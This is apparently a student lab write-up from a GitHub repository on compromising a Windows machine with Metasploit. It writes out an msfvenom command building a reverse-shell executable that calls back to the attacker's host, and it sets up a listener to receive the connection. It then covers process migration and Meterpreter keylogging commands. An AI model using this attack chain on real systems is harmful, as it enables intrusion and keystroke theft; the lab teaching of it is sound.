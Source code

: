 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## OUTPUT:
![eth ep 6 1](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/42c07380-31db-4e8f-a50f-dc79cbe7014e)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![ETH EP 6 2](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/981dae79-a184-4fe7-97fb-f06c1390355c)

copy the fun.exe into the apache /var/www/html folder

![ETH EP 6 3](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/dd0bc2d7-d144-42a9-a9a4-0fb8dc491ae1)

Start apache server sudo systemctl apache2 start

![ETH EP 6 4](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/9eb99679-ea0d-4ea0-97c0-f75407e31d23)

 Check the status of apache2

 ![ETH EP 6 5](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/27b142a8-4e44-447e-bed2-77e48cf0babb)
 
 Invoke msfconsole:
 ## OUTPUT:
 Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![ETH EP 6 6](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/cac71c8f-d77f-45fa-bb28-ee8ceaa8cf94)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![eth ep 6 7](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/ecd3b7e2-63d0-4e99-990d-95fbd3654662)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![eth ep 6 8](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/c4b4e30a-88d4-4397-b4aa-e9a3e2136f0f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![eth ep 6 9](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/a9ce9410-a8f5-4a9d-974c-7d482492914f)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![eth ep 6 10](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/90eea5e9-aee0-4238-bc08-796d0a407cdc)

keyscan_dump Shows the keystrokes captured so far

![eth ep 6 11](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/a9863e2c-4d9a-4d10-b95a-ae69b44c3386)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
